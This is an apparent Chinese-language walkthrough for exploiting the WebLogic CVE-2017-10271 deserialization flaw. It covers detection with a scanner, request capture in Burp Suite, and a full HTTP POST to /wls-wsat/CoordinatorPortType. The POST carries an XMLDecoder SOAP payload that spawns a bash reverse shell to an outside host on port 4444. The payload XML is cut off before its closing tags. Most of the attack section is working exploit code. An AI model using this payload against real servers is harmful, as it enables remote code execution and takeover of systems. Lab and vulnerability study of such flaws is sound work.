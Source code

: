 ![CVE_2017_10271_2](./img/weblogic_CVE-2017-10271/CVE_2017_10271_2.png)

---

### 利用方式

---

#### 探测确认

利用 weblogicScanner(https://github.com/0xn0ne/weblogicScanner)，检查是否存在漏洞。

![CVE_2017_10271_5](./img/weblogic_CVE-2017-10271/CVE_2017_10271_5.png)

---

#### 利用过程

使用 burpsuite 访问 http://ip:7001/wls-wsat/CoordinatorPortType 显示如下：

![03](./img/weblogic_CVE-2017-10271/03.png)

将抓到的包修改为 POST 请求并加上 payload

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.189:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 639

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.182.234.169/4444 0&gt;&amp;1</string>
</void>
</array>
```